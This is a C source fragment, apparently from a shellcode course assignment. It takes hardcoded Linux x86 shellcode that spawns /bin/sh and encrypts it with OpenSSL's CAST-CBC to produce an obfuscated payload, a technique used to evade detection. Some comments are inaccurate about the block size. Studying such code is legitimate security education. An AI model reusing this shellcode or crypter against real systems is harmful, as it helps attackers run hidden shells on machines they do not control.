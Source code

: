 ```c
    unsigned char iv_data[CAST_BLOCK] = {
        0xde, 0xad, 0xbe, 0xef, 0xde, 0xad, 0xbe, 0xef
    };

    // Our original shellcode from assignment 6, exec /bin/sh
    unsigned char data[] = \
	"\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

    // Round up the length to a multiple of 16 */
    int length  = (int)(strlen(data) + (CAST_BLOCK - 1)) & ~(CAST_BLOCK - 1);

    // temp array for the original shellcode
    // All values are set to 0 because length is a multiple of 16
    char*  temp = (char*) calloc(length, sizeof(char)); 
    
    // Dynamic memory to store the  output of OpenSSL's CAST CBC method
    char* crypt = (char*) malloc(sizeof(char) * length); 

	// Copy the IV data to the IV array
    memcpy(iv, iv_data, CAST_BLOCK);

    // Print IV & key 
    affichageVar(key_data, CAST_KEY_LENGTH, "Key");
    affichageVar(iv_data, CAST_BLOCK, "IV");

    // Copy original shellcode to heap to work with
    memcpy(temp, data, strlen(data));

    // Set the key 
    CAST_set_key(&key, CAST_KEY_LENGTH * 8, key_data);

    // encryption, store the encoded shellcode into crypt
    CAST_cbc_encrypt(temp, crypt, length, &key, iv, CAST_ENCRYPT);

    affichage(crypt, length, "crypted");    

    free(crypt);

    return 0;
}

void affichageVar(unsigned char* tab, int length, char* name)
{
	int i;
	printf("\n[+] %s: ", name);
	for (i = 0; i < length; i++)
        	printf("\\x%02x", *(tab+i));
	
}

void affichage(unsigned char* tab, int length, char* name)
{
        int i;
        printf("\n[+] %s Shellcode: ",name);
        for (i = 0; i < length; i++)
                printf("\\x%02x", *(tab+i));

	printf("\n");
}
```
